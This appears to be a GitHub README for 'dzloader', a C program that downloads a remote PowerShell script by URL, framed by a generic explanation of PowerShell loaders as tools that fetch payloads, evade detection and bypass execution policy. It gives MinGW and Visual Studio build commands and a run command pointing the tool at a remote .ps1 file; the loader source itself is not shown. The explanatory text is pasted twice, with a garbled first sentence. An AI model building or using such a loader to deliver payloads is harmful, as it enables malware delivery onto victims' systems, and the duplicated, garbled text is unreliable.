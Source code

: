 A PowerShell loader typically refers to a script or a piece of code written in C C++ Or Any  that is designed to load and execute other scripts or payloads, often for the purpose of executing tasks, automating processes, or retrieving and executing malicious code. In cybersecurity contexts, it can be associated with malware that utilizes PowerShell for command-and-control purposes or to obfuscate its operations.

### Key Points about PowerShell Loaders:

1. **Functionality**: A PowerShell loader can dynamically download and execute scripts or binaries from remote locations, often bypassing security mechanisms.

2. **Usage**: While many PowerShell loaders are used by attackers, PowerShell itself can also be used for legitimate purposes in system administration and automation tasks.

3. **Obfuscation**: Malware authors often obfuscate their PowerShell loaders to avoid detection by security software. This may involve encoding scripts or using complex logic to hide the malicious activity.

4. **Execution Policy**: PowerShell has an execution policy that restricts how scripts can be run, which can sometimes be bypassed by loaders manipulating the policy.

5. **Common in Attacks**: PowerShell loaders are frequently used in cyberattacks, such as phishing campaigns or ransomware incidents, to deliver additional payloads or maintain persistence on compromised systems.

6. **Security Awareness**: Organizations are encouraged to monitor PowerShell usage within their environments closely, employ logging, and use security solutions that detect and prevent suspicious scripts and activities.

In summary, a PowerShell loader can be a powerful tool for both administrators and malicious actors, and it is essential to be aware of its implications in both contexts.A PowerShell loader typically refers to a script or a piece of code written in PowerShell that is designed to load and execute other scripts or payloads, often for the purpose of executing tasks, automating processes, or retrieving and executing malicious code. In cybersecurity contexts, it can be associated with malware that utilizes PowerShell for command-and-control purposes or to obfuscate its operations.

### Key Points about PowerShell Loaders:

1. **Functionality**: A PowerShell loader can dynamically download and execute scripts or binaries from remote locations, often bypassing security mechanisms.

2. **Usage**: While many PowerShell loaders are used by attackers, PowerShell itself can also be used for legitimate purposes in system administration and automation tasks.

3. **Obfuscation**: Malware authors often obfuscate their PowerShell loaders to avoid detection by security software. This may involve encoding scripts or using complex logic to hide the malicious activity.

4. **Execution Policy**: PowerShell has an execution policy that restricts how scripts can be run, which can sometimes be bypassed by loaders manipulating the policy.

5. **Common in Attacks**: PowerShell loaders are frequently used in cyberattacks, such as phishing campaigns or ransomware incidents, to deliver additional payloads or maintain persistence on compromised systems.

6. **Security Awareness**: Organizations are encouraged to monitor PowerShell usage within their environments closely, employ logging, and use security solutions that detect and prevent suspicious scripts and activities.

In summary, a PowerShell loader can be a powerful tool for both administrators and malicious actors, and it is essential to be aware of its implications in both contexts.

Explanation of New Features:

    Command-Line Arguments: The program now takes two command-line arguments:
        The first argument (argv[1]) is the URL from which to download the file.
        The second argument (argv[2]) is the filename (with a .ps1 extension) where the script will be saved.

    ASCII Banner: The PrintBanner function prints a simple ASCII art banner at the start of the program, making the interface more user-friendly and visually appealing.

Compiling and Running the Program:

To compile the program, ensure you have a suitable Windows C compiler (like MinGW or Visual Studio). Save the code in a file, e.g., downloader.c, and compile it using the following commands based on your compiler.

Using MinGW:

Windows
```
gcc downloader.c -o downloader -lwininet
```

Linux
```
 /usr/bin/i686-w64-mingw32-gcc -I w32api/include/ -L w32api/lib/ dzloader.c -mconsole -o dzloader.exe -lwininet 
```

Using Visual Studio:
Open the Developer Command Prompt and run:
```
cl dzloader.c /link wininet.lib
```
Running the Program:
After compilation, you can run the program from the command line:      
```
dzloader.exe "http://example.com/script.ps1" "downloaded_script.ps1"
```
    

